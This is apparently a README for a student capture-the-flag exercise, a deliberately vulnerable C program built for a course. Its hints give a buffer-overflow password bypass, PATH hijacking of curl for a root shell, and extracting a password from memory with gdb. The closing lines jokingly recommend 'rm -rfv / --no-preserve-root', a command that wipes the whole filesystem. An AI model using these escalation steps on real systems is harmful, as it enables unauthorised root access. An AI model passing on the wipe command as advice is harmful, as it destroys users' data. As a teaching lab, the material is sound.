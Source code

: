 # Capture the hack
### What is this "game"?
+ This exploit game aims to learn some very basic linux comands and also some low *hacking* knowlage to collect all flags.
+ And also this is project for BPC-IC1.
## How to play
### Initial setup:
- We recommend doing this on some virtual machine (manjaro for example).
- And also for the compiling, player needs to know the root password (but later on player tryes to bypass it).
+ Clone this repo and cd in its file:
```bash
git clone https://github.com/PrimalMight/IC1_Project.git
smthn=`find $(pwd) -name 'IC1_Project'` && cd $smthn
```
+ Compile totally legit SW:
```bash
sudo gcc -w -g -fno-stack-protector -o launch_me main.c   
sudo gcc -o decryptor decryptor.c 
```
> names ``launch_me`` and ``decryptor`` are optional, but i recommend not changing it. <br>
### Game tutorial:
Start the program with ``./launch_me``.
+ **First flag: Buffer overflow bypass the initial password check!**
	* After the program is started, player is asked for some password, well we dont know the password, se you need to find other way how to gain acces! <br>
	<details>
 	<summary>Hint here!</summary>

  ```
  Maybe try spam of ``A`` (somewhere between 1 and 35) ``1`` on the end?
  ```
	</details>
	<details>
 	<summary>Click me, when you really cant find overflow</summary>

  ```
  AAAAAAAAAAAAAAAAAAAAAAAAAAAA1 (28x A)
  ```
	</details>
+ **Second flag: Hijack the path for relative curl call in the program for shell and escalate privilege to root!**
	* ``$ strings exploit_this`` to get information about the compiled file. <br>
	* ``$ curl -I localhost`` - curl is called without full path using $PATH variable! <br>
	* So you need to hijack the curl path and substitute curl for shell. <br>
	<details>
 	<summary>Hint here!</summary>

  ```bash
  strings launch_me
  echo /usr/bin/sh > /tmp/curl
  #this one is easy, give all privileges to curl (use chmod)
  export PATH=/tmp:$PATH
  #cd back to the repo file
  which curl
  #launch the compiled program with ./launch_me
  #enter the password overflow that worked from first flag
  #choose ``y`` on "do you want to check fo running http localhost service (y/n)"
  #execute ``whoami`` command to make sure, you have root privileges
  ```
	</details>
	
+ **Third flag: Extract the password from memory using gdb tool and use this password to decrypt ``riddle_me_this_batman.txt`` file containing final riddle for batman!**
	* There are two parts player needs to do.
	* First, create another .txt file and with echo add some text into it (it is needed to do this, because it is the unix way of adding text to the file).
	```bash
	touch test.txt; echo "We are no strangers to love, You know the rules and so do I!"
	```
	* launch compiled programme with gdb and try to extract password from memmory.
	```bash
	gdb launch_me
	break <name_of_the_function_player_need_to_break>
	```
	<details>
 	<summary>Hint here!</summary>

  ```bash
  (in normal console) gdb lanch_me
  (in gdb) break encrypt_file
  (in gdb) #answer ``y`` to "Enable debuginfo for this session(y or [n])"
  (in gdb) run
  (in gdb) #enter the "password" from first flag
  (in gdb) #answer ``n`` to "want to check for local service running?"
  (in gdb) #answer ``y`` to "do you want to encrypt file? (y/n)"
  (in gdb) #enter the filename: test.txt (or whatever you choosed to name it)
  (in gdb) x/s password #still in the gdb
  (in gdb) exit
  (in gdb) #answer ``y`` to "Quit anyway?(y or n)"
  ```
	</details>
	
	* Second part is decrypthing the ``riddle_me_this_batman.txt``.
	* To do that, you need once again enter shell with root privileges (second flag) and use password you found above for encryptor to decrypt .txt file.
	```bash
	./decryptor
	> please provide a password: <here_goes_the_password>
	nano output_plaintext.txt
	```
	* And now you've got all the flags, so there is one final thing you need to do before you leave this VM image, what is the answer for the riddle?.
	* [Click me for answer](https://youtu.be/54P0GQEM4w8)
	<details>
 	<summary>Hint here!</summary>

  ```bash
  (normal console) ./launch_me
  > Do you want to check for runninf http localhost service? (y/n)
   y
  (root from flag2) ./decryptor
  > Please prowide a password: <here_goes_the_password>
  (root from flag2) nano output_plaintext.txt
  ```
	</details>
	
	* And now you can leave with style! 
	> I recommend using something like ``rm -rfv / --no-preserve-root``
	
## BPC-IC1 things:
Authors: 2x BPC-IBE, 1x BPC-TLI
### Vulnerabilities
- [x] Buffer overflow into password check bypass
- [x] Relative path hijack into privilege escalation with SUID bit
- [x] Visible password in memory

